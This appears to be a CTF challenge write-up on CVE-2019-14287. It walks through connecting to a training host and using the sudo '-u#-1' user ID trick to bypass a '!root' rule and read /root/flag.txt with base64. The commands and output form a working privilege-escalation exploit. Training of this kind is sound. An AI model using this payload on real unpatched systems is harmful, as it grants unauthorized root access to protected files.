 ## Reader

> Salam jumaat @everyone, here jumaats challenge. It is privilege escalation based on CVE-2019-14287. Feel free to check it out :).
> Privilege escalation is the process by which a user gains elevated access to resources that are normally protected from that user's standard capabilities. This can occur in two main forms:
> Vertical Privilege Escalation: A lower-privileged user gains the permissions of a higher-privileged user, such as a regular user becoming an administrator.
> Horizontal Privilege Escalation: A user gains the permissions of another user with the same privilege level, often to access information or resources they are not authorized to access.
> Privilege escalation can happen due to system vulnerabilities, misconfigurations, or through exploitation of application bugs. It's a critical security issue as it can allow unauthorized users to compromise the entire system or network.
> Creds :
> ssh [ctf-player@ice-training.syamilyusof.com](mailto:ctf-player@ice-training.syamilyusof.com) -p 2222
> Password : verysecure
> Dockerfile : https://drive.google.com/file/d/1dkbyr81Ji2rmwYn6npOGKQPzM-3LE75y/view?usp=drive_link

1. This challenge based on CVE-2019-14287
    
    <aside>
    💡 In Sudo before 1.8.28, an attacker with access to run as ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command.
    
    </aside>
    
2. To solve this challenge first we need to connect to the challenge using ssh
3. Now we can do sudo -l
    
    <aside>
    💡 sudo -l command is used to list the commands that a user is allowed to run using 'sudo
    </aside>


```bash
ctf-player@d86f88d61095:~$ sudo -l
Password: 
User ctf-player may run the following commands on d86f88d61095:
    (ALL, !root) /bin/base64
```
    

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/263919ba-ea01-4c27-9f7f-c8006042f8d9/Untitled.png)

1. The `(ALL, !root) /bin/base64` means that user(ctf-player) in this case can run the /bin/base64 command as any user except root. Base64 command can do some encode and decode in base64.
2. Now we can craft our payload to run as user `-u#-1` in this case Sudo treat it as 0 which is root. 
    1. Payload : `sudo -u#-1 base64 /root/flag.txt`
    2. Explanation : This command encodes the contents of `/root/flag` using Base64 encoding as `root` privileges through sudo.
```bash
ctf-player@d86f88d61095:~$ sudo -u#-1 base64 /root/flag.txt
RWFzeSBodWg/IEhlcmUgdGhlIGZsYWcgOiBJQ0V7dGhAbmtmdTExeV90aDFzX0NWRV9hcmVfcEB0
Y2gzZH0K
```
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/cb1b164b-d24d-4164-8af9-b59920c0214a/Untitled.png)
    
3. Now we can decode it using `base64 -d`

```bash
ctf-player@d86f88d61095:~$ sudo -u#-1 base64 /root/flag.txt | base64 -d                                
Easy huh? Here the flag : ICE{th@nkfu11y_th1s_CVE_are_p@tch3d}
```

